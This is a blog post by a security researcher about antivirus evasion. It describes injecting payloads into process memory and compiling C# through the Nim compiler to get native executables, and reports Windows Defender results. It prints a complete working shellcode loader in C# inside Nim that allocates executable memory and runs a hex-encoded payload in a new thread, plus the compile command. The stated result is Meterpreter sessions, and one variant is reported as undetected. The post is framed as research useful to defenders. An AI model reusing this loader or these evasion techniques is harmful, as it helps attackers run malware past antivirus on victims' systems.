

Payload & Technique Detection
Payload & Technique Detection
in this article i want to talk about Payload Detection & Technique Detection which is very important,it is not about Windows Defender AV,
it is about almost all Anti-viruses...
as you can see in this case my simple Code "NativePayload_TId.exe" in the "Picture 1", my code was detected by AV but my injected Payload to the "Notepad:5328" worked very good.
that means: does not matter attacker code detected/deleted by AV, because Payload "in-memory" is working and now your "Notepad.exe" process with PID:5328 has Malware payload in memory.
i think all C# developers can use that especially for Defensive Approach.

Picture 1: Code Detected by AV
you can see this Notepad process Not Detected by AV, this is big problem for some Anti-viruses, it is not about Windows Defender only. in my Research/tests some of them have same problem like this for example (ESET, ...). as defender you should know this important thing & this is important vulnerability for some AVs.
Note: About ESET in this link you can see same problem:https://damonmohammadbagher.github.io/Posts/1jun2020x.html
so i can say Windows Defender very good working on Code/Detection in hard-disk but Payload Detection + Technique Detection "In-memory" was not good in this case, because Payload now is moved/injected to another process in this case "Notepad.exe" (in-memory) and that means Technique Detection was not good too. (they should work on this more than before & as i said before ETW will help you a lot for Technique Detection etc.)
my post about ETW & Remote Thread Injection Attack: https://damonmohammadbagher.github.io/Posts/6Aug2020x.html
C# Code Integration & Nim Compiler:
Compiler has one feature for Compiling C# Codes (with csc.exe). frankly i did not work with "Nim" before this article and i am not Nim Programmer but i saw some simple codes to use C# & Compiling .NET codes with Nim Compiler which means you will have "PE/exe" file which is not .NET file but you can use that exe for Compiling/execute your C# Code (real-time).
Nim Compiler/Programming guide : https://nim-lang.org/docs/nimc.html
i want to show you my tests about this, in this case your PE Signatures will change from Manged Code to Unmanaged Code, it means you will have Native/EXE/PE code and your exe file is not Managed code and you can not use .NET Reflector tools for Debugging/Decoding these PE/exe to watching Source code etc.
Note: this technique used by some Security researchers and i think is fun also sometimes is useful so you can test this simple technique for your own code too. as you can see in the "Picture 2", this simple code and PE/EXE detected by AV (Window Defender)
(for better resolution: please click on picture)

Picture 2: Code Detected by AV
miNativePayload_TI.nim
import winim/clr
import winim/com
import os
var code = """
using System;
using System.Runtime.InteropServices;
public class Program
{
public void Main(string args)
{
Console.WriteLine();
Console.ForegroundColor = ConsoleColor.DarkGray;
Console.WriteLine("miNativePayload_TI , Published by Damon Mohammadbagher , Dec 2020");
Console.ForegroundColor = ConsoleColor.Gray;
Console.WriteLine("miNativePayload_TI Local Thread Injection");
Console.WriteLine();
string X = args;
string[] XX = X.Split(',');
byte[] result_de_obf_payload = new byte[XX.Length];
for (int i = 0; i < XX.Length; i++)
{
result_de_obf_payload[i] = Convert.ToByte(XX[i], 16);
}
UInt32 MEM_COMMIT = 0x1000;
UInt32 PAGE_EXECUTE_READWRITE = 0x40;
Console.WriteLine();
Console.ForegroundColor = ConsoleColor.Gray;
Console.WriteLine("Bingo Meterpreter session by Dynamic / Integration Codes ;)");
UInt32 funcAddr = VirtualAlloc(0x00000000, (UInt32)result_de_obf_payload.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
Marshal.Copy(result_de_obf_payload, 0x00000000, (IntPtr)(funcAddr), result_de_obf_payload.Length);
IntPtr hThread = IntPtr.Zero;
UInt32 threadId = 0;
IntPtr pinfo = IntPtr.Zero;
hThread = CreateThread(0x0000, 0x0000, funcAddr, pinfo, 0x0000, ref threadId);
WaitForSingleObject(hThread, 0xffffffff);
Console.ForegroundColor = ConsoleColor.Gray;
}
[DllImport("kernel32")]
private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr, UInt32 size, UInt32 flAllocationType, UInt32 flProtect);
[DllImport("kernel32")]
private static extern IntPtr CreateThread(UInt32 lpThreadAttributes, UInt32 dwStackSize, UInt32 lpStartAddress, IntPtr param, UInt32 dwCreationFlags, ref UInt32 lpThreadId);
[DllImport("kernel32")]
private static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);
}
"""
var res = compile(code)
var o = res.CompiledAssembly.new("Program")
o.Main(paramStr(1))
Compiling Nim Code:
nim c -d=mingw --app=console --cpu=amd64 miNativePayload_TI.nim
as you can see in the "Picture 2" this code/PE detected/removed by AV very good also session closed but something was interesting to me which is that DLL file Created by Compiler in temp Folder.
I really don't know why this dll created but i think this dll created by C# Compiler and csc.exe file and "Nim" compiler uses Csc.exe, so in this case we have Payload + Code in (hard-disk) with dll file so this simple technique does not work as you can see in the "Picture 2". (good job Windows Defender)
Second C# + Nim Test:
In this case i had interesting Results:
Test-1: my code with Nim Compiler PE/exe was detected by av & meterpreter Session closed (Picture 3)
Note: on hard-disk "dll" file created by Nim Compiler & csc.exe and Payload + Technique/code Detected by AV.
Test-2: my code with C# PE was detected by av too but Session Created... (Picture 1 & Picture 4)
Note: Nothing Created on hard-disk, everything was "in-memory" & Technique + Payload Detected by AV, but session created without detection. (we talked about this in the "Picture 1")
(for better resolution: please click on picture)
Picture 3: C# + Nim Code Detected by AV.
(for better resolution: please click on picture)
Picture 4: C# Code Detected by AV but ...
also i had test with Multicast-Delegate C# technique + Nim and this method worked very well.
(for better resolution: please click on picture)
Picture 5: C# Code not Detected by AV.
Finally you can see Nim PE (Unmanaged Code) and C# PE with this Reflector tool (.NET Managed Code & Unmanaged Code)
(for better resolution: please click on picture)
Picture 6: .NET Managed Code & Unmanaged Code
at a glance: ¯\_(ツ)_/¯ fun & sometimes useful...